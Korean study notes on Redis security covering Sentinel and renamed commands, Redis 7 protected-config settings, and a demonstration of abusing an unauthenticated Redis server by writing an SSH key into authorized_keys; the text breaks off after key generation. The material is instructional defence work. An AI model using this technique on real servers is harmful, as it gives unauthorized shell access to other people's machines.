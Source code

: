 - 센티널은 레디스 인스턴스를 감시하고 있다가 마스터에 장애가 발생했다고 판단하면 직접 레디스로 `REPLICAOF`, `CONFIG` 등의 커맨드를 날려 레디스 인스턴스를 제어한다.
- 만약 `rename-command`를 이용해 레디스에서 커맨드 이름을 변경했다면 장애 상황에서 센티널이 전송하는 커맨드를 레디스가 정상적으로 수행할 수 없어 페일오버가 정상적으로 발생하지 않게 된다.
- 따라서 `redis.conf`에서 변경한 커맨드는 `sentinel.conf`에서도 변경해야 한다.
### 커맨드 실행 환경 제어
- 레디스 버전 7부터는 보안을 강화하기 레디스가 실행중일 때 변경하면 위험할 수 있는 커맨드는 기본적으로 변경할 수 없도록 차단됐으며, 사용자는 이러한 커맨드의 변경을 아예 차단 또는 허용하거나, 로컬 연결에서만 변경이 가능할 수 있도록 선택할 수 있다.
```shell

enable-protected-configs no
enable-debug-command no
enable-module-command no
```
- `enable-protected-configs` 설정은 레디스의 기본 경로 설정인 dir 및 백업 파일의 경로를 지정하는 dbfile 등의 옵션을 `CONFIG` 커맨드로 수정하는 것을 차단하는 옵션이다.
### 레디스를 이용한 해킹 사례
```text
       server A
     (203.0.113.1)                     server B
┌─────────────────────┐        ┌───────────────────────┐
│  port 6379          │        │  redis-cli -h         │
│  protected-mode no  │  ←─────│─ 203.0.113.1 -p 6379  │
│  requirepass " "    │        │                       │
└─────────────────────┘        └───────────────────────┘ 
```
- 레디스의 `protected-mode` 설정값은 no로 지정돼 있으며, 패스워드는 설정되지 않았다고 가정해보자.
```shell

[centos@serverB ~]$ telnet 203.0.113.1 6379
Trying 203.0.113.1...
Connected to 203.0.113.1.
Escape character is '^]'.
echo "no AUTH"
$7
no AUTH
quit
+OK
Connection closed by foreign host.
```
- Telnet 연결이 가능하다는 것을 확인했으므로 네트워크 통신이 가능한 것을 알 수 있으며, 또한 redis-cli를 사용해 패스워드 없이 연결하는 것도 가능하다.
- 서버 B에서 SSH 키를 생성하고, 이 키의 데이터를 레디스를 통해 서버 A로 전송해 파일로 저장한 후, 이 키를 사용해 서버 B에서 서버 A로의 접근을 가능하게 해보자.
```text
                server A
             (203.0.113.1)                                    server B
┌─────────────────────────────────────┐        ┌───────────────────────────────────┐
│                  save ←─────────────│────────│──redis-cli -h 203.0.113.1 -p 6379 │
│                    ↓                │        │              ↑ set                │
│  /home/centos/.ssh/authorized_keys  │        │             file                  │
└─────────────────────────────────────┘        └───────────────────────────────────┘ 
```
```shell

[centos@serverB ~]$ ssh-keygen -t rsa
Generating public/private sa key pair.
Enter file in which to save the key (/home/centos/.ssh/id_rsa): •/id_rsa
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in ./id_rsa.
Your public key has been saved in ./id_rsa.pub.
The key fingerprint is:
SHA256: XxxXxX
The key's randomart image is:
+-[RSA 2048] ----+
```